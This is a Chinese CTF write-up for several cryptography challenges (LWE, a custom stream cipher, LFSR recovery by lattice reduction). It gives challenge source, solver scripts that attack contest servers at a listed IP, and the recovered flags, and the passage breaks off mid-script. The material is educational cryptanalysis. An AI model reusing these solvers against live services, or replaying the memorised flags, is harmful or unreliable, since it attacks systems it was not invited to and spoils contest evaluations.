p=1329596764371107264260948790524463667078201288962092988229220331099216972202747986235496117149730240332402358728798174199576808159410988077039863933883707283021432596510812652195899704038126374630854432891580277457310166342238907250055728526757955693768208634626765002269557414142205735568171344541059676587026552819564587252379527557854007769644766922798602628730499830452043996042865583066303024746135216694290599886977846557408057361447210602309239731866416103
q=664798382185553632130474395262231833539100644481046494114610165549608486101373993117748058574865120166201179364399087099788404079705494038519931966941853641510716298255406326097949852019063187315427216445790138728655083171119453625027864263378977846884104317313382501134778707071102867784085672270529838293513276409782293626189763778927003884822383461399301314365249915226021998021432791533151512373067608347145299943488923278704028680723605301154619865933208051
g=25
a=randint(3,q-3)
for i in range(64):
    print(f'g**(a**{i})=',pow(g,pow(a,i,q),p))
f=[randint(3,2**64) for i in range(64)]
f[-1]=1

fa=0
for i in range(64):
    fa+=f[i]*pow(a,i,q)%q
    fa%=q
w=None
while(1):
    w=(a+randint(1,q-3))%q
    fw=0
    for i in range(64):
        fw+=f[i]*pow(w,i,q)%q
        fw%=q
    if(fw):
        break

print('f(x)=',f)
print('w=',w)
print('g**(f(a)/(a-w))=',pow(g,fa*inverse(a-w,q)%q,p))

ANS=pow(g,inverse(a-w,q),p)
assert flag==UUID(int=ANS%(2**128))
```

### 3.1 出题人预期解

题目两个素数 $p,q$ ，其中 $p=2q+1$ 为强素数。还给出了 $g,g^a,g^{a^2},...,g^{a^{63}},f(x),w$ 和 $h=g^{{f(a)}/(a-w)}$  ，目标值是求出 $g^{1/(a-w)}$  。其中 每个人的附件中，$g,p,q$ 固定，但 $w,h$ 为不定值。并且每份附件中，$a$ 均不同，且我们不知道 $a$ 的值。

这个题中， $p$ 的一个原根是 5 ，也就是 $5^{i}$ 可以遍历 $1\sim p-1$ 中的所有值。而 $p-1=2q$ ，因此模 $p$ 乘法群上，有一个阶数为 $q$ 的子群，其生成元为 25，恰好是 $g$ 的值。

当然，为了求目标值，我们可以先构建这样两个多项式：

$$
F(x)=f(x)~\mathrm {div} ~(x-w)
$$

和：

$$
d=f(x)\mod (x-w)
$$

其中：$F(x)$ 为 62 次多项式，$d=f(x)\mod (x-w)$为常数（因为被除式为 63 次，除式为 1 次）。我们设 $F(x)=F_0+F_1x+F_2x^2+...+F_{62}x^{62}$。其中 $F_0,F_1,F_2,...,F_{62}$ 可以直接获得。因此，我们可以计算 $g^{F(a)}$ 值如下：

$$
g^{F(a)}=\prod_{i=0}^{62} g^{F_ia^{i}}=\prod_{i=0}^{62} \left(g^{a^{i}}\right)^{F_i}
$$

这里需要把 $g^{a^i}$ 看成一个整体，因为这个是我们所知道的，但我们是不知道 $a$ 的，因此不能把 $a$ 落单出来。

这样搞下来，我们就可以得到

$$
h/g^{F(a)}=g^{\frac{f(a)}{a-w}-F(a)}=g^{\frac{d}{(a-w)}}
$$

因此，最后目标就是：

$$
\left(h/g^{F(a)}\right)^{1/d}
$$

EXP:

```python
from sage.all import *

from Crypto.Util.number import *
from uuid import *
p=1329596764371107264260948790524463667078201288962092988229220331099216972202747986235496117149730240332402358728798174199576808159410988077039863933883707283021432596510812652195899704038126374630854432891580277457310166342238907250055728526757955693768208634626765002269557414142205735568171344541059676587026552819564587252379527557854007769644766922798602628730499830452043996042865583066303024746135216694290599886977846557408057361447210602309239731866416103
q=664798382185553632130474395262231833539100644481046494114610165549608486101373993117748058574865120166201179364399087099788404079705494038519931966941853641510716298255406326097949852019063187315427216445790138728655083171119453625027864263378977846884104317313382501134778707071102867784085672270529838293513276409782293626189763778927003884822383461399301314365249915226021998021432791533151512373067608347145299943488923278704028680723605301154619865933208051
g=25
gapow=[]
D=open('Crypto03.py','r').readlines()[36:]
for i in range(64):
    line=D[i]
    line=line.split('=')
    gai=int(line[1])
    gapow.append(int(gai))
PR=PolynomialRing(Zmod(q),name='X')
X=PR.gen(0)
line=D[64]
line=line.split('=')
f=PR(eval(line[1]))
line=D[65]
line=line.split('=')
w=int(line[1])
line=D[66]
line=line.split('=')
h=int(line[1])

fdivxw=list(f//(X-w))
fmodxw=f%(X-w)

G=1
for i in range(63):
    G*=pow(int(gapow[i]),int(fdivxw[i]),p)
    G%=p
u=h*inverse(G,p)
AAA=(pow(u,inverse(int(fmodxw),q),p))
print(UUID(int=AAA%(2**128)))
#susctf{0bf4a7d7-59f8-35ab-6866-687b470f7f36}
```

虽然这个题似乎可以用 AI 直接秒，但是还是想问一下各位选手，看完这个题有多少人回看 AI 的输出结果的？如果回看一下的话，AI 应该是用到了”多项式运算“，那既然多项式都可以运算了，为啥不尝试尝试多项式分解呢？试一下多项式分解，Crypto 01 不就也出了吗？

## 04-Broadcast1(Easy,19 Solves, 135pts)

又是一个送分题。拿到题会发现每次 $A,s$ 都一样，然后 $e$ 是标准差 $1$ 的离散高斯分布产生的（这意味着 $e$ 的每个分量的很可能不超过 4）。题目给了 $548\times2=1096$ 次交互机会，多次交互，看哪个出现的最多和最中间就行了（对应的误差是 0）。得到没有误差的 $\vec b$ 之后，就可以直接解方程 $A\vec s=\vec b$ 获得秘密向量 $\vec s$ 了。

这个题主要是为了让各位新手师傅熟悉 LWE 这一抗量子密码，和第三题一样也没有什么难度，作为密码第 2 个签到题。

```python
import random as random2
import os
from sage.all import *
from sage.stats.distributions.discrete_gaussian_integer import DiscreteGaussianDistributionIntegerSampler as DGDIS
n=128
p=31337
D=DGDIS(sigma=1) #Generate the discrete gaussian distribution with sigma = 1

flag=os.getenv('GZCTF_FLAG')+''.join([random2.choice('0123456789ABCDEGHJK')for _ in range(n)]) #漏了个F，写wp才发现:D
seedA=''.join([random2.choice('0123456789ABCDEFGHJK') for _ in range(24)])
print('Public Seed:'+seedA)
rng=random2.Random()
rng.seed(seedA.encode())
while(1):
    A=matrix(Zmod(p),[[rng.randint(0,99) for _ in range(n)]for __ in range(n)])
    if(A.rank()==n):
        break

rng.seed(os.urandom(48))

s=vector(Zmod(p),[rng.randrange(200,p-200,200)+ord(flag[i]) for i in range(n)])

for i in range(548*2):
    op=int(input('Give me your choice>'))
    if(op==1):
        e=vector(Zmod(p),[D() for _ in range(n)])
        print(list(A*s+e))
    else:
        break
```

### 4.1 出题人预期解

```python
from sage.all import *
from pwn import *
from tqdm import *
import random
n=128
q=31337
sh=process(['python3','task.py'])
sh.recvuntil(b':')
seedA=sh.recvline(keepends=False).strip()
rng=random.Random()
rng.seed(seedA)
while(1):
    A=matrix(Zmod(q),[[rng.randint(0,99) for _ in range(n)]for __ in range(n)])
    if(A.rank()==n):
        break

Recv=[]
for i in tqdm(range(600)):
    sh.recvuntil(b'>')
    sh.sendline(b'1')
    res=eval(sh.recvline(keepends=False))
    Recv.append(res)

y=[]
for i in range(n):
    D=dict()
    for j in range(600):
        D[Recv[j][i]]=1+D.get(Recv[j][i],0)
    ansi,anst=None,0
    for u,v in D.items():
        if(v>anst):
            ansi,anst=u,v
    y.append(ansi)
y=vector(Zmod(q),y)
s=A.solve_right(y)
print(bytes(s.change_ring(Zmod(200))))
```

### 4.2 **PJWaurora** 的解题脚本，不需要 sagemath 也可以解

```python
import socket
import time
import random as random2
import numpy as np

def modinv(a, p):
    g, x, _ = extended_gcd(a, p)
    return x % p if g == 1 else None

def extended_gcd(a, b):
    if a == 0:
        return b, 0, 1
    g, y, x = extended_gcd(b % a, a)
    return g, x - (b // a) * y, y

def matrix_mod_inverse(matrix, p):
    n = matrix.shape[0]
    aug = np.hstack((matrix, np.eye(n, dtype=int)))
    for i in range(n):
        # 寻找主元行
        pivot_row = -1
        for j in range(i, n):
            if aug[j, i] != 0:
                pivot_row = j
                break
        if pivot_row == -1:
            return None
        # 交换主元行与当前行
        aug[[i, pivot_row]] = aug[[pivot_row, i]]
        # 计算当前主元的逆元并归一化当前行
        inv = modinv(aug[i, i], p)
        if inv is None:
            return None
        aug[i] = (aug[i] * inv) % p
        # 消去其他行的当前列元素
        for j in range(n):
            if j != i and aug[j, i] != 0:
                aug[j] = (aug[j] - aug[j, i] * aug[i]) % p
    # 返回逆矩阵（扩展矩阵的右半部分）
    return aug[:, n:]

def get_flag_char(s_i):
    # 遍历可能的k值，计算t_i和对应的字符ASCII码
    for k in range((s_i - 126 + 199) // 200, (s_i - 32) // 200 + 1):
        t_i = 200 * k
        ord_char = s_i - t_i
        # 检查字符ASCII码范围和t_i范围是否合法
        if 32 <= ord_char <= 126 and 200 <= t_i <= 31137:
            return chr(ord_char)
    # 无法匹配时返回占位符
    return "?"

def main():
    # 配置参数：目标IP、端口、矩阵维度、模数、请求y的数量
    HOST, PORT, n, p, NUM_Y = "106.14.191.23", 57766, 128, 31337, 200

    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
        s.connect((HOST, PORT))
        # 接收并解析公开种子
        seedA = s.recv(1024).decode().split("Public Seed:")[1].strip()
        # 初始化随机数生成器
        rng = random2.Random()
        rng.seed(seedA.encode())
        
        # 生成满秩的随机矩阵A
        A = None
        while True:
            A = np.array([[rng.randint(0, 99) for _ in range(n)] for _ in range(n)], dtype=int) % p
            if np.linalg.matrix_rank(A) == n:
                break
        
        # 发送请求获取NUM_Y个y向量
        y_list = []
        for _ in range(NUM_Y):
            try:
                s.sendall(b"1\n")
                time.sleep(0.1)
                # 接收并解析y向量（注意：eval存在安全风险，实际使用可替换为更安全的解析方式）
                y = eval(s.recv(4096).decode().strip())
                if len(y) == n:
                    y_list.append([yi % p for yi in y])
            except:
                continue
        
        # 发送请求获取c向量（y向量的均值）
        s.sendall(b"2\n")
        # 计算y向量的均值并取整、模p
        c = np.round(np.mean(np.array(y_list, dtype=int), axis=0)).astype(int) % p
        
        # 计算矩阵A的模p逆矩阵
        A_inv = matrix_mod_inverse(A, p)
        if A_inv is None:
            return
        
        # 计算s向量并解析为flag
        s_list = (np.dot(A_inv, c) % p).astype(int).tolist()
        flag = "".join(map(get_flag_char, s_list))
        print(flag)
        # 提取并打印包含{}的flag核心部分
        if "{" in flag and "}" in flag:
            print(flag[flag.index("{"):flag.index("}") + 1])

if __name__ == "__main__":
    main()
```

## 05-ezStream(Easy+,6 Solves, 262pts)

这个题主要考察一些数论知识，当然，你可能也需要一些注意力。

题目代码：

```python
from Crypto.Util.number import *
from random import *
from os import *

p=int(input('Please give me a 32~50 bit prime modulus>'))

if(not isPrime(p) or p.bit_length()<=32 or p.bit_length()>=50):
    print('Invalid parameter!')
    exit(0)

RODICT=dict()
USED=set()

def RandomOracle(x):
    global USED,RODICT
    if(RODICT.get(x,None) is not None):
        return RODICT[x]
    while(1):
        r=bytes_to_long(urandom(48))%p
        if(r not in USED):
            USED|={r}
            RODICT[x]=r
            return r

state=[randint(1,p-1) for _ in range(randint(256,512))]
visited=False
for i in range(200):
    op=int(input('Give me your option>'))
    if(op==1):
        msg=input("Input your message array(Decimal Format)>")
        #input example: 1 2 3 4 5 6 7 8 9 10 100 999 10000
        msg=msg.split()
        msg=msg[:512]
        ciph=[]
        for ch in msg:
            cur=state.pop(0)
            ciph.append(cur+RandomOracle(int(ch)))
            state.append(pow(cur,2*(getrandbits(2)+1)+1,p))
        print(ciph)

    elif(op==2):
        if(visited):
            print('Only one chance!')
            continue
        else:
            visited=True
            ret=[]
            flag=getenv('GZCTF_FLAG')
            for ch in flag:
                chi=ord(ch)
                cur=state.pop(0)
                ret.append(RandomOracle(chi)+cur)
                state.append(pow(cur,2*(getrandbits(2)+1)+1,p))
            print('Cipher of flag=',ret)

    else:
        break
```

### 5.1 出题人预期解

这个题目大意是：你需要输入一个素数 $p$ 作为模数，然后输入任意消息，消息会被经过一个随机预言机 RO，然后提取流密码状态中的值 s，加密获得 RO(x)+s。最后将 $s^3$ 或 $s^5$ 或 $s^7$ 或 $s^9$ 放入流密码 state 的末尾继续用。

这个题出题人测试时，丢 AI，AI 会告诉你选择一个较小的数字，或者较大的数字，或者提出加密时没有对 $p$ 取模。说明 AI 并非万能的:D。

这个题的正解是：找一个 $2\times 3^x\times 5^y\times 7^z+1$ 类型的素数，并且 $3$ 的指数尽可能大，因为 3 因子的指数消减速度是 5 因子和 7 因子的 3 倍（其实 $2\times3^x+1$ 的素数也可以）。这样经过多次迭代之后，整个序列中就只剩下 $1$ 和 $-1$ 两个值了。然后枚举并尝试获取所有可见字符的 RO  。最后获取 FLAG 即可 :)。

exp 比较简单，但先给出如何寻找可能可以的素数吧，代码如下。其实这种素数还是挺多的。。。这个代码输出的最后一个值为  $2\times 3^{30}+1$ ，刚好是 49 比特，用这个也不是不行:P

```python
from Crypto.Util.number import *
for i in range(10,40):
     for j in range(8):
             for k in range(8):
                     r=2*3**i*5**j*7**k+1
                     if(isPrime(r) and r.bit_length() in range(33,50)):
                             print(r.bit_length(),i,j,k,r)
```

最终 EXP：

```python
from Crypto.Util.number import *
from sage.all import *
from pwn import *
from tqdm import *
sh=remote('106.14.191.23',53054)

sh.recvuntil(b'>')
sh.sendline(str(2*3**30+1).encode())

for i in tqdm(range(100)):
    sh.recvuntil(b'>')
    sh.sendline(b'1')
    sh.recvuntil(b'>')
    sh.sendline(b'1 '*512)
D=dict()
for i in range(32,128,5):
    sh.recvuntil(b'>')
    sh.sendline(b'1')
    sh.recvuntil(b'>')
    sh.sendline((f'{i} '*100+f'{i+1} '*100+f'{i+2} '*100+f'{i+3} '*100+f'{i+4} '*100).encode())
    A=eval(sh.recvline())
    for j in set(A[:100]):
        D[j]=i
    for j in set(A[100:200]):
        D[j]=i+1
    for j in set(A[200:300]):
        D[j]=i+2
    for j in set(A[300:400]):
        D[j]=i+3
    for j in set(A[400:500]):
        D[j]=i+4
sh.recvuntil(b'>')
sh.sendline(b'2')
sh.recvuntil(b'=')
C=eval(sh.recvline())
F=[]
for i in C:
    F.append(D[i])
print(bytes(F))
#b'susctf{gcd_P_MInus_on3_aNd_EXPOnENt14I_M4K35_THi5_sTr34M_Clph3R_lnSEcURE_0aBCl59dZbAee76f}'
```

### 5.2 奇怪的非预期解法

这个解法我审 wp 时竟然一开始结合着注释都不太懂这个脚本在做什么，但后面仔细看了看，大概了解了意思，但和预期解相比，肯定是预期解更简单的。

顺便说明：AI 解题也许能给你一个答案，但其实并非最优解。并且 AI 给你的反馈，肯定还是取决于你给它的消息，而给它什么消息，那还是靠你自己的经验积累了。。。

> 该解法思想如下，但总觉得漏洞百出
> - 与远程服务器建立连接，使用指定大质数 P 作为模数 收集加密数据流（通过发送全 0 数组获取）。
> - 基于收集的数据流计算关键参数 L（偏移量）和 H(0)（初始哈希值）（？？？）。
> - 构建字符与可能哈希值的映射关系（H(m)候选空间） 利用回溯算法结合 flag 前缀 susctf{，从加密的 flag 数据中破解出原始 flag

不是，哥们，你都发现 $D=[3,5,7,9]$ 了，为啥不往费马小定理和幂指数那边想呢？

这个非预期解法的大致代码如下（我经过 AI 简化了一下，删除了无用的注释）

```python
from pwn import *

HOST = '106.14.191.23'
PORT = 58680
P = 281474976710597
FLAG_PREFIX = "susctf{"

def send_option(r, option):
    r.sendlineafter(b'Give me your option>', str(option).encode())

def encrypt(r, msg_list):
    send_option(r, 1)
    r.sendlineafter(b'Input your message array(Decimal Format)>', ' '.join(map(str, msg_list)).encode())
    r.recvuntil(b'[')
    return [int(x) for x in r.recvuntil(b']', drop=True).decode().split(', ')]

def get_flag_cipher(r):
    send_option(r, 2)
    r.recvuntil(b'Cipher of flag= [')
    return [int(x) for x in r.recvuntil(b']', drop=True).decode().split(', ')]

def solve_interactive_final_battle():
    r = remote(HOST, PORT, timeout=10)
    r.sendlineafter(b'Please give me a 32~50 bit prime modulus>', str(P).encode())
    
    ciph_stream = []
    for _ in range(8): 
        ciph_stream.extend(encrypt(r, [0] * 128))
    
    print(f"\nP = {P}\n\nciph_stream = {ciph_stream}\n")
    found_L = int(input("L: "))
    found_H0 = int(input("H(0): "))

    initial_state_stream = [c - found_H0 for c in ciph_stream]
    current_state_offset = len(ciph_stream)
    
    ciph_probe = []
    for i in range(0, 256, 16):
        ciph_probe.extend(encrypt(r, list(range(i, i+16))))
    
    D = [3, 5, 7, 9]
    h_candidates = {}
    for i, m in enumerate(range(256)):
        base_s = initial_state_stream[current_state_offset + i - found_L]
        h_candidates[m] = {ciph_probe[i] - pow(base_s, d, P) for d in D}

    current_state_offset += 256
    flag_ciph = get_flag_cipher(r)
    
    solution = []
    def solve_integrated(position, current_flag, h_dict):
        if solution: return
        if position == len(flag_ciph):
            solution.append(current_flag)
            return

        base_s = initial_state_stream[current_state_offset + position - found_L]
        chars_to_try = [ord(FLAG_PREFIX[position])] if position < len(FLAG_PREFIX) else range(256)

        for m in chars_to_try:
            for d in D:
                h_pred = flag_ciph[position] - pow(base_s, d, P)
                if h_pred not in h_candidates[m]:
                    continue
                if any(existing_h == h_pred and existing_m != m for existing_m, existing_h in h_dict.items()):
                    continue
                new_h_dict = h_dict.copy()
                new_h_dict[m] = h_pred
                char = chr(m) if position >= len(FLAG_PREFIX) else FLAG_PREFIX[position]
                solve_integrated(position + 1, current_flag + char, new_h_dict)
    
    solve_integrated(0, "", {0: found_H0})
    
    if solution:
        print(f"Flag: {solution[0]}")
    else:
        print("Failed to find flag")
        
    r.close()

if __name__ == "__main__":
    print("准备好后按 Enter 开始...")
    input()
    solve_interactive_final_battle()
```

## 06-nfsr3(Medium, 1 Solves, 500pts)

去年有 nfsr1，nfsr2，今年来个 nfsr3。

```python
from Crypto.Util.number import *
from random import *
from os import urandom,getenv


token=''.join([choice('ABCDEFGHJK0123456789')for _ in range(90)])

class LFSR:
    def __init__(self,n,p,seed):
        self.n=n
        self.p=p
        self.mask=[1]+[randint(0,p-1) for _ in range(n-1)]
        self.state=seed[:n]
        while(len(self.state)<n):
            self.state.append(len(self.state))
    def getstate(self):
        ret=sum([u*v%self.p for u,v in zip(self.state,self.mask)])%self.p
        self.state.append(ret)
        self.state.pop(0)
        return ret

p=getPrime(208)
h=32328345448461253988278351927
lfsr1=LFSR(45,p,[randrange(200,p-200,200)+ord(i) for i in token[:45]])
lfsr2=LFSR(45,h,[randrange(200,h-200,200)+ord(i) for i in token[45:]])
print(f'p={p}')
print(f'mask={lfsr1.mask}')
MONEY = 97
isHint=False
cHint=800
for i in range(500):
    MENU=f"""
++++++MENU+++++++++
+1.Guess      $  1+
+2.BuyHint    $350+
+3.SubmitTkn $2000+
+0.Exit           +
++++++NFSR+3+++++++
DOLLAR:{str(MONEY).zfill(4)}
CHANCE:{str(500-i).zfill(4)}
"""
    print(MENU)
    op=int(input('Choice>'))
    if(op==1):
        MONEY-=1
        x=int(input('Your Guess>'))
        u=lfsr1.getstate()^((lfsr2.getstate()))
        if(u==x):
            print(f'AC, Your answer:{x} Right answer:{u}')
            MONEY+=7
        elif(abs(u-x)<=h):
            print(f'PC, Your answer:{x} Right answer:{u}')
            MONEY+=2
        else:
            print(f'WA, Your answer:{x} Right answer:{u}')
        if(MONEY==0):
            exit(0)
    elif(op==2):
        if(MONEY<350):
            print(f'Sorry, The hint cost $$350, You only have $${MONEY}')
            continue
        else:
            MONEY-=350
            print(f'lfsr2.mask={lfsr2.mask}')
            print(f'lfsr2.state={lfsr2.state}')
            isHint=True
    elif(op==3):
        if(MONEY<2000):
            print(f'Sorry, token submission cost $$2000, You only have $${MONEY}')
        else:
            MONEY-=2000
            token1=input('NOW! GIVE ME MY TOKEN!>').strip()
            if(token1.upper()==token):
                FLAG=getenv('GZCTF_FLAG')
                print(f'Congraduations! here is your flag!!!:{FLAG}')
            else:
                print('Sorry, but I think you could have your flag...')
    else:
        exit(0)
```

### 6.1 出题人预期解

一个猜数字的题，需要金币达到 2000，方可提交 token，获得 flag。

这个题的一个迷惑之处在于：我似乎给了你一个 `op=2` 的选项，花 350 金币可以买到 `lfsr2` 的状态。但其实这个选项对于解题并没有太大的帮助。因为 `lfsr2` 的值完全可以解出来。而如果解出了 `lfsr1` 的大致值而不去解 `lfsr2`，就会导致你要浪费 350 次去获取 `lfsr2` 的值，最后只剩下几十次机会，完全不够将金币刷到 2000 获取 flag。

因此正确的做法是：由于一个大数 $a$ 异或一个小数 $b$ ，相当于这个大数 $a$ 加上或减去了另一个小数 $c$。因为我们有异或不等式（$0\le b\lt a$）：

$$
a-b\le a\oplus b\le a+b
$$

由于 $p$ 是 208 位素数，$h$  是 95 位，而 `lfsr1^lfsr2`  的结果相当于 知道了每次 `lfsr1` 的高位，但不知道 `lfsr1` 的低位。因此这也算是一个 HNP 问题（如果你意识到异或小数字等价于加上或减去一个小数字的话）。

因此，我们可以将每个数拆分为高位 $y$ 和低位  $x$ ，其中高位 $y$ 就是我们已知的部分，低位 $x$ 就是我们未知的部分，并尝试建立 $y$ 和 $x$ 的关系：

因此可以构造一个这样的关系：

$$
(x_0,...,x_{44}|k_0,...,k_{44}|1)\begin{bmatrix}
\mathbf I& \mathbf B&\mathbf 0 \\
\mathbf 0& p\mathbf I&\mathbf 0\\
\mathbf 0&\mathbf v&h
\end{bmatrix}=(x_0,...,x_{44}|x_{45},...,x_{89}|h)
$$

以 $x_{45}$ 为例，我们可以计算：

$$
x_{45}=\sum_{i=0}^{44}a_iy_i+\sum_{i=0}^{44}a_ix_i -y_{45}
$$

其中 $a$ 为 `lfsr1` 的 MASK 值，这个我们是已知的，所有的 $y$ 也是我们已知的。

把所有 $y$ 看成一个整体，就有：

$$
v_0=\sum_{i=0}^{44}a_iy_i -y_{45}
$$

再提取所有 $x$ 的系数，就有矩阵 $\mathbf B$ 的第 $0$ 列为$(a_0,a_1,...,a_{44})$ 。

同理， $x_{46}$  可以用写成未知数 $x_{1}\sim x_{45}$ 表示，但 $x_{45}$ 可以化为 $x_{0}\sim x_{44}$ 的表示，因此 $x_{46}$ 也可以写成 $x_{0}\sim x_{44}$ 的表示。这个过程直接使用 Sagemath 的多项式环就可以直接求系数了。。。把系数构建成上面的矩阵  $\mathbf B$ 就可以直接对上面的分块矩阵 `LLL` 求解，找最后一个分量为 $±h$ 的向量为目标向量（如果是 $-h$则需要整体取负  ）。

恢复了 `lfsr1` 的完整之后，我们就知道了 `lfsr1` 和 `lfsr2` 异或的差值了，我们将差值转化成异或值，就可以得到 `LFSR2` 的 90 个输出结果了。有了 90 个输出结果就可以直接解方程恢复 `lfsr2` 的 mask 了。

当然，这里需要注意一个问题：`lfsr2` 的模数 $h$ 不是素数，而是三个素数的乘积。sagemath 中不支持合数模的 `solve_left`。因此可以在三个素数域中求，求出来后使用中国剩余定理就 OK 了。

恢复了 `lfsr1,lfsr2` 之后，我们就可以往回回溯得到 `token`，然后再往后继续预测，把金币刷到 2000，就可以提交 `token`  获取 flag 了！

```python
from pwn import *
from sage.all import *
from tqdm import *
context.log_level='debug'
class LFSR:
    def __init__(self,n,p,seed):
        self.n=n
        self.p=p
        self.mask=[1]+[randint(0,p-1) for _ in range(n-1)]
        self.state=seed[:n]
        while(len(self.state)<n):
            self.state.append(len(self.state))
    def getstate(self):
        ret=sum([u*v%self.p for u,v in zip(self.state,self.mask)])%self.p
        self.state.append(ret)
        self.state.pop(0)
        return ret
h=32328345448461253988278351927
# sh=process(['python3','83.py'])
sh=remote('106.14.191.23',58221)
sh.recvuntil(b'=')
p=int(sh.recvline(keepends=False))
sh.recvuntil(b'=')
A=eval(sh.recvline(keepends=False))
print(p)
print(A)
D=[]
for i in range(90):
    sh.recvuntil(b'>')
    sh.sendline(b'1')
    sh.recvuntil(b'>')
    sh.sendline(b'1')
    sh.recvuntil(b'Right answer:')
    D.append(int(sh.recvline()))

V=PolynomialRing(Zmod(p),names='x0, x1, x2, x3, x4, x5, x6, x7, x8, x9, x10, x11, x12, x13, x14, x15, x16, x17, x18, x19, x20, x21, x22, x23, x24, x25, x26, x27, x28, x29, x30, x31, x32, x33, x34, x35, x36, x37, x38, x39, x40, x41, x42, x43, x44')
xarr=list(V.gens())
print(xarr)

harr=D[:90]
for i in range(45):
    f=sum([u*v for u,v in zip(A,harr[i:45+i])])+sum([u*v for u,v in zip(A,xarr[-45:])])-harr[45+i]
    xarr.append(f)

B=[]
v=[]
for i in range(45,90):
    f=xarr[i].coefficients()
    B.append(f[:-1])
    v.append(f[-1])
B=matrix(B)
print(B.nrows(),B.ncols())
M=block_matrix(ZZ,
[
    [identity_matrix(45),matrix(B).T,0],
    [zero_matrix(45),p*identity_matrix(45),0],
    [zero_matrix(1,45),matrix(v),h],
])

M3L=M.LLL()
larr=None
for vec in M3L:
    if(abs(vec[-1])==h):
        larr=vec*sgn(vec[-1])
        break


Z=[larr[i]+harr[i] for i in range(90)]
S=[Z[i]^harr[i] for i in range(90)]
print(Z)
print(S)


M=[S[i:i+45] for i in range(45)]
y=S[45:90]
p1,p2,p3=1754143 , 6669342923 , 2763347071643
Mp1,Mp2,Mp3=[matrix(Zmod(ppx),M) for ppx in [p1,p2,p3]]
vp1,vp2,vp3=[vector(Zmod(ppx),y) for ppx in [p1,p2,p3]]
up1,up2,up3=[mmm.solve_left(vvv).change_ring(ZZ) for mmm,vvv in zip([Mp1,Mp2,Mp3],[vp1,vp2,vp3])]
print(up1)
print(up2)
print(up3)
B=[crt([up1[i],up2[i],up3[i]],[p1,p2,p3]) for i in range(45)]
Y=S[-45:]
print(Y)
print(B)

Z=Z[-45:]

for i in tqdm(range(350)):
    Next=sum([u*v for u,v in zip(A,Z)])%p
    Mext=sum([u*v for u,v in zip(B,Y)])%h
    sh.recvuntil(b'>')
    sh.sendline(b'1')
    sh.recvuntil(b'>')
    sh.sendline(str(Next^Mext).encode())
    sh.recvuntil(b'Right answer:')
    S.append(int(sh.recvline(keepends=False))^Next)
    Z.append(Next)
    Z.pop(0)
    Y.append(Mext)
    Y.pop(0)


for i in range(350+90):
    yi=Y.pop(-1)
    zi=Z.pop(-1)
    diffy=sum([u*v for u,v in zip(B[1:],Y)])%h
    diffz=sum([u*v for u,v in zip(A[1:],Z)])%p
    Y=[(yi-diffy)%h]+Y
    Z=[(zi-diffz)%p]+Z
print(bytes(list(vector(Zmod(200),Z))))
print(bytes(list(vector(Zmod(200),Y))))
TKN=bytes(list(vector(Zmod(200),Z)))+bytes(list(vector(Zmod(200),Y)))
sh.recvuntil(b'>')
sh.sendline(b'3')
sh.recvuntil(b'>')
sh.sendline(TKN)
print(sh.recvall(timeout=4))
sh.close()
```

### 6.2 RedApple 师傅的解题脚本

RedApple 师傅使用的是矩阵法求 lfsr 状态。也可以给各位师傅们参考一下。

其实他原始的代码 AI 辅助痕迹还是很明显的（共 312 行，为了简化篇幅，使用 AI 进行了去无用内容处理），因为 AI 用起来真的很方便，但用 AI 还是需要你自身的基本知识积累的。如果你什么都不懂，直接把这个题丢 AI，那这个题肯定是做不出来的。。。

```python
from pwn import *
from sage.all import *
from sage.modules.free_module_integer import IntegerLattice

conn = remote("106.14.191.23", 57549)
h = 32328345448461253988278351927

def xor(a, b):
    return int(a) ^ int(b)

def collect_initial_data():
    data = conn.recvuntil(b'DOLLAR:')
    p_line = data.split(b'\n')[0].decode()
    mask_line = data.split(b'\n')[1].decode()
    p = int(p_line.split('=')[1])
    mask = eval(mask_line.split('=')[1].strip())
    T = []
    for i in range(96):
        conn.recvuntil(b'Choice>')
        conn.sendline(b'1')
        conn.recvuntil(b'Your Guess>')
        conn.sendline(b'0')
        result = conn.recvline().decode()
        if 'Right answer:' in result:
            T.append(int(result.split('Right answer:')[1].strip()))
    return p, mask, T

def solve_lfsr1_state(T, p, mask):
    def Babai(B, t):
        B = IntegerLattice(B, lll_reduce=True).reduced_basis
        G = B.gram_schmidt()[0]
        b = t
        for i in reversed(range(B.ncols())):
            b -= B[i] * ((b * G[i]) / (G[i] * G[i])).round()
        return t - b

    n = 45
    m = len(T)
    A = Matrix(ZZ, n)
    for i in range(n-1):
        A[i,i+1] = 1
    A[n-1,:] = vector(ZZ, mask)
    C = []
    mask_vec = vector(ZZ, mask)
    A_power = identity_matrix(ZZ, n)
    for i in range(m):
        row = (mask_vec * A_power) % p
        row = vector(ZZ, row)
        C.append(row)
        A_power = (A_power * A) % p

    CC = C
    C = Matrix(ZZ, C)
    A = C
    b = vector(ZZ, T)
    r = A.nrows()
    pIr = p*identity_matrix(r)
    M = block_matrix([[pIr], [A.transpose()]])
    br = Babai(M, b)
    R = IntegerModRing(p)
    Ar = matrix(R, CC)
    state = Ar.solve_right(br)
    return state

def solve_lfsr2_and_token(T, p, mask, lfsr1_state):
    class LFSR:
        def __init__(self,n,p,seed):
            self.n=n
            self.p=p
            self.mask=[1]+[randint(0,p-1) for _ in range(n-1)]
            self.state=seed[:n]
            while(len(self.state)<n):
                self.state.append(len(self.state))
        def getstate(self):
            ret=sum([u*v%self.p for u,v in zip(self.state,self.mask)])%self.p
            self.state.append(ret)
            self.state.pop(0)
            return ret

    lfsr3 = LFSR(45, p, lfsr1_state)
    lfsr3.mask = mask    
    lfsr3.state = list(lfsr1_state)
    T2 = []
    for idx in range(96):
        tlf1 = lfsr3.getstate()
        u = T[idx]
        tlf2 = xor(u, tlf1)
        T2.append(tlf2)

    result = []
    for i in range(45):
        row = T2[i:i+45]
        result.append(row)
    res = T2[45:90]

    A_mod = Matrix(Zmod(h), result)
    b_mod = vector(Zmod(h), res)
    s = A_mod.solve_right(b_mod)
    lfsr2_mask = list(s)

    n = 45
    A = Matrix(ZZ, n)
    for i in range(n-1):
        A[i,i+1] = 1
    A[n-1,:] = vector(ZZ, lfsr2_mask)
    C = []
    mask_vec = vector(ZZ, lfsr2_mask)
    A_power = identity_matrix(ZZ, n)
    for i in range(96):
        row = (mask_vec * A_power) % h
        row = vector(ZZ, row)
        C.append(row)
        A_power = (A_power * A) % h

    CC = C
    rr = T2
    AA_mod = Matrix(Zmod(h), CC)
    bb_mod = vector(Zmod(h), rr)
    ss = AA_mod.solve_right(bb_mod)
    lfsr2_state = list(ss)
    
    token = ""
    for idx in list(lfsr1_state):
        token += chr(int(idx) % 200)
    for idx in list(lfsr2_state):
